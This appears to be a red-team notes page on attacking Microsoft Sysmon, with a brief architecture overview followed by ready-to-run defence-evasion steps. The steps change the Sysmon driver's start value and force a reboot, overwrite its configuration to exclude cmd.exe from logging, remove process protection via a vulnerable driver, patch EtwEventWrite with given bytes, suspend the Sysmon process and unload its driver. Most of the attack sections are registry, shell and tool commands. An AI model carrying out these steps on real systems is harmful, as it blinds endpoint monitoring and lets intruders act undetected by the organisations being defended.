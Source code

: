 - [System Monitor (Sysmon)](#system-monitor-sysmon)
- [Sysmon architecture](#sysmon-architecture)
- [Attacking Sysmon](#attacking-sysmon)
	- [Removing kernel callbacks](#removing-kernel-callbacks)
	- [Altitude takeover](#altitude-takeover)
	- [Boot Settings](#boot-settings)
	- [Overwrite config file](#overwrite-config-file)
	- [ETW Patching](#etw-patching)
	- [Suspending and resuming the process](#suspending-and-resuming-the-process)
	- [Unloading sysmon driver](#unloading-sysmon-driver)

## System Monitor (Sysmon)
### Sysmon architecture
- https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
- Sysmon consists of a client program `Sysmon.exe` and a driver `SysmonDrv.sys`.
	- The driver registers kernel callbacks for Image, Thread, Process, Registry and FileSystem operations.
	- The client collects network (DNS) telemetry from the ETW session and from the driver and writes it to a ETW session
	- Uses a `XML` file for configuration, which telemetry sources is enabled and what to include and exclude

### Attacking Sysmon
### Removing kernel callbacks
- [Drivers & Driver Attacks – Vulnerable drivers](Drivers & Driver Attacks.md#vulnerable-drivers)

### Altitude takeover
- [Manual Altitude takeover](Endpoint Detection Response (EDR).md#manual-altitude-takeover)

### Boot Settings
### Example Boot settings
- What does it do
	- [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa) - Changes the `start` value of the `SysmonDrv` to `3` (demand start) or revert it back to `0` (boot start)
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine
- Link to code (Not published yet)

```
.\BootSettings.exe -e
```

### Manually change boot settings
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Change the start value
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv" /v Start /t REG_DWORD /d 3 /f
```

#### Reboot the system
```
shutdown /r /t 0
```

### Overwrite config file

### Example overwriting config file
- What does it do
	- Reads the registry value and overwrites the original configuration file with new content
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process
- See manual steps to copy and add exclusion to config file

```
.\OverwriteConfigFile --replace <NEW CONFIG FILE PATH> --config <SYSMON CONFIG FILE PATH>
```

### Manually overwriting config file
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Find current config file
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile
```

#### Copy the config file
```
copy "C:\Program Files\Sysmon\sysmonconfig.xml" "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

#### Add PE exclusion to the config file
- Adds an exclusion for a specific PE file

```
<!-- Image Exclusion -->
<Image condition="is">C:\Windows\System32\cmd.exe</Image>

# Add it within
    <RuleGroup groupRelation="or">
      <ProcessCreate onmatch="exclude">
```

#### Change config file registry value
- Changes the config file path

```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile /t REG_SZ /d "C:\Program Files\Sysmon\sysmonconfig_new.xml" /f
```

#### Update sysmon with the new configuration
- Loads the new configuration file

```
sysmon -c "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

### ETW Patching
- What does it do
	- Apply ETW patch to the sysmon process, by writing the `0x48 0x33 0xc0 0xc3` patch to `EtwEventWrite` function inside the sysmon process
- `Sysmon.exe` is a protected process and it requires removing before being able to patch ETW.
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Patch EtwEventWrite
- Link to code (Not published yet)

```
.\PatchETWRemoteProcess.exe -t sysmon64.exe
```

### Suspending and resuming the process
- What does it do
	- Suspend the `Sysmon.exe` or `sysmon64.exe` process, which stops generating events from information from the driver
- `Sysmon.exe` is a protected process and it requires removing before being able to suspend the process
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Suspend the process
- What does it do
	- Suspends the target process
- Logs will be send after resuming the process again

```
.\SuspendRemoteProcess.exe -t sysmon64.exe -a suspend
```

### Unloading sysmon driver
- What does it do
	- Unloads the driver using the [FilterUnload](https://learn.microsoft.com/en-us/windows/win32/api/fltuser/nf-fltuser-filterunload) win32 API.
- Requirements;
	- Local administrator / system privileges
- Link to code (Not published yet)

```
.\FilterUnload -d
```